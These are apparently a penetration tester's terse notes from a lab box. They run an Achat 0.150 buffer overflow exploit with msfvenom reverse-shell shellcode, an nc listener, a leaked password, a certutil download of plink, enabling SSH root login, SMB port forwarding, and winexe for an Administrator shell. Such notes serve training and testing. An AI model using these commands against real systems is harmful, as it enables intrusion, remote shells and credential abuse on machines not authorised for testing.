

Windows 8 machine
searchsploit achat- > Achat 0.150 beta7 - Remote Buffer Overflow | windows/remote/36025.py
Take this script and alter the shellcode.
Altering the shellcode by creating a new msfvenom output- > msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.191 LPORT=444 -e x86/unicode_mixed -b '<insert orginal shellcode>' BufferRegister=EAX -f python
start nc listener- > nc -nlvp 444
- ---------------YOU GET A SHELL---------------

Alfred's password = Welcome1!
Using Welcome1!
Plink.exe <--- used for port forwardinghttps://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html- Command line interface to putty(connecto to servers interface)
UPDOG plink.exe to download on server- Download it on windows
- > certutil -url cache -f <link> <name the file>
- =====Creating the Port Forward=====
Change setting in ssh config- > nano /etc/ssh/sshd_config
- Uncomment >>> PermitRootLogin prohibit-password
- change to >>>>>>> PermitRootLogin yes
- ***Allows us to connect to our machine from the windows as root***
Connect from Windows machine with Plink
windows> plink.exe -l root -pw toor -R 445:127.0.0.1:445 <your ip>- Understand that you are portfowarding that first IP
=====Connect to your machine======
==========================================================
**ONLY WORKS WITH CRED LEAK**
Use tool winexe to gain a shell back from the ssh- > winexe -U Administrator%<Password> //127.0.0.1 "cmd.exe"